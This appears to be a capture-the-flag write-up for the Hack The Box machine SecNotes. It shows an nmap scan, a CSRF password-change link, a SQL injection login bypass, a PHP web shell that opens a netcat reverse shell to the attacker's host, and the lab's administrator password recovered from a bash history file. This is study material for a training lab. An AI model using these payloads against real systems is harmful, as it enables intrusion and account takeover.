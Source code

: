 ```yaml
---
title: "SecNotes - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## SecNotes
![](https://kar0nx.github.io/assets/images/writeup/50c8eaf2cd0fe953a71141b06bd88817.png)
## Reconnaissance

IP: 10.10.10.97
## NMAP

```
nmap -T4 -p- -A 10.10.10.97
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-20 13:31 UTC
Nmap scan report for 10.10.10.97
Host is up (0.027s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Microsoft Windows 10 1909 - 2004 (91%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-09-20T00:06:16-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-20T07:06:13
|_  start_date: N/A
|_clock-skew: mean: -4h07m28s, deviation: 4h02m31s, median: -6h27m30s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.28 ms 10.10.14.1
2   26.38 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.63 seconds
```

## Website
### Site

On port 8808 we have default ISS page, no directories, moving on to port 80.
We are redirected to /login.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920090534.png)

default creds didn't work so let's regiester new user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920090643.png)



![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920090630.png)

We see that user tyler is probably administrator, my first taught is sending change password to burp and maybe we can switch user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920090910.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920091008.png)

also tried to change method to GET and it also works

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920092549.png)

We can try to XSS and try to steal tyler cookie or Cross-Site Request Forgery XSRF, because we can send message via contact.php to tyler 
Let's try XSRF first:

```
http://10.10.10.97/change_pass.php?password=123123&confirm_password=123123&submit=submit
```

now try to login as typer with this password and we got a hit 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920093028.png)

checking new site note we can spot tyler password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920093126.png)

## Second access method

Later reading other writeups I found that we can also gain access via SQL injection, simply register username as `' OR '1'='1` and then login with same injection username

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920100324.png)

## SMB

Tyler credentials works with smb.
Checking shares I found new-site share

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920093449.png)

It looks like directory of 8809 page, trying to put sth here with success

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920093751.png)

So the plan is to put reverse shell here and then open it in browser to get access

## Gaining Access

It is windows machine so the best way (for me) is to host nc.exe and shell.php 

``` 
<?php  
system('nc.exe -e cmd.exe 10.10.14.13 443')  
?>
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920094300.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920094333.png)

Putting fieles inside smb share and running

```
http://10.10.10.97:8808/shell.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920094510.png)

We got shell as tyler

## Privilege Escalation

Running winpeas I found interesting files that may contain credentials (looks like linux?)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920095517.png)

also found that linux is installed on this machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920095639.png)

```
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
```

navigating to this path I found .bash_history in root directory containing user adn password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920095835.png)

Tried to connect with same command we got administrator access and confirm that credentials are 
valid

```
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920100051.png)
